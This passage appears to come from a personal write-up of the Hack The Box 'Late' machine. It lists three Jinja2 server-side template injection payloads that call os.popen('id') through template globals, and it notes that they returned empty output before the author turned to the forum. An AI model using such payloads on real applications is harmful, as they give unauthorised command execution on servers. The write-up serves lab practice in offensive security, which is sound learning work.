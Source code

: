 .png format is excepted, but my payload return only p tags empty so there might be filtering or I should have uplaoded one at a time.
 
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen('id').read() }}

{{ self._TemplateReference__context.namespace.__init__.__globals__.os.popen('id').read() }}

```

Walk away from this box for a couple a weeks, went to the forums which was a buzz [forum](https://forum.hackthebox.com/t/official-late-discussion/256022/264)
![Stimpies-advice](Screenshots/Stimpies-advice.png)
